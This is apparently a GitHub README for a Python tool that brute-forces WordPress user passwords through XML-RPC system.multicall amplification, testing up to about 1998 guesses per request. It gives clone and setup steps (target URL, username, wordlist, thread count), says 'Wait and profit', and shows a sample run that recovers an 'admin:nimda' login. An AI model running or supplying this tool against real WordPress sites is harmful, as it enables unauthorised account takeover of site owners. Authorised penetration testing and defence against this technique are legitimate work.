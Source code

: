# Purpose

This tool bruteforces user passwords on Wordpress installations that have XML-RPC enabled (by default, btw) using the `system.multicall()` call which allows encapsulation of multiple methods in one XML-RPC call, thus, giving an opportunity to save on network requests when bruteforcing passwords (amplification). In other words, instead of 1337 requests per 1337 password attempts, this methods allows for 1337 passwords to be tested in one request.

Currently, we have empirically established the maximum number of methods per request which is equal to 1998. Adding methods over this number produces an error on *our* Wordpress installation (YMMV).

# Usage
- `git clone https://github.com/0xBADCA7/wp-xmlrpc-bruteforcer.git`
- `cd wp-xmlrpc-bruteforcer`
- Edit `main.py`:
	-	`WORDPRESS_SERVER` to point to the `xmlrpc.php` file on the remote side
	- `USERNAME` for the username password of which you want to discover
	- `WORDLIST` to point to the dictionary of your choice
	- (optional) `CHUNK_SIZE` to change the number of multicall methods per single network request
	- (optional) `THREADS_NUM` to change the number of threads
- Run as `python3 main.py`
- Wait and profit

# Sample run
```
$ python3 main.py
[+] Started at Sun Nov  8 14:30:55 2015
[i] Thread-2 Total words:  256 Total calls:  1
[i] Thread-3 Total words:  256 Total calls:  1
[i] Thread-1 Total words:  256 Total calls:  1
[i] Thread-1 Total words:  512 Total calls:  2
[i] Thread-2 Total words:  512 Total calls:  2
[i] Thread-3 Total words:  512 Total calls:  2
[i] Thread-1 Total words:  768 Total calls:  3
[i] Thread-2 Total words:  768 Total calls:  3
[i] Thread-3 Total words:  768 Total calls:  3
[i] Thread-1 Total words:  1024 Total calls:  4
[i] Thread-2 Total words:  1024 Total calls:  4
[i] Thread-3 Total words:  1024 Total calls:  4
[i] Thread-1 Total words:  1280 Total calls:  5
[i] Thread-2 Total words:  1280 Total calls:  5
[i] Thread-3 Total words:  1280 Total calls:  5
[i] Thread-3 Total words:  1536 Total calls:  6
[i] Thread-2 Total words:  1536 Total calls:  6
[i] Thread-1 Total words:  1536 Total calls:  6
[i] Thread-2 Total words:  1792 Total calls:  7
[i] Thread-3 Total words:  1792 Total calls:  7
[i] Thread-1 Total words:  1792 Total calls:  7
[i] Thread-2 Total words:  2048 Total calls:  8
[i] Thread-1 Total words:  2048 Total calls:  8
[i] Thread-3 Total words:  2048 Total calls:  8
[i] Thread-2 Total words:  2304 Total calls:  9
[i] Thread-1 Total words:  2304 Total calls:  9
[i] Thread-3 Total words:  2304 Total calls:  9
[i] Thread-2 Total words:  2560 Total calls:  10
[i] Thread-1 Total words:  2560 Total calls:  10
[i] Thread-3 Total words:  2560 Total calls:  10
[i] Thread-2 Total words:  2816 Total calls:  11
[i] Thread-1 Total words:  2816 Total calls:  11
[i] Thread-3 Total words:  2816 Total calls:  11
[i] Thread-2 Total words:  3072 Total calls:  12
[i] Thread-1 Total words:  3072 Total calls:  12
[i] Thread-3 Total words:  3072 Total calls:  12
[i] Thread-2 Total words:  3328 Total calls:  13
[i] Thread-1 Total words:  3328 Total calls:  13
[!] Found a match: "admin:nimda"
[+] Finished at Sun Nov  8 14:32:16 2015
Password found. All done. Bye
```

# License
Licensed under GPLv3, see [gpl-3.0.txt](/wp-xmlrpc-bruteforcer/blob/master/gpl-3.0.txt) for details.


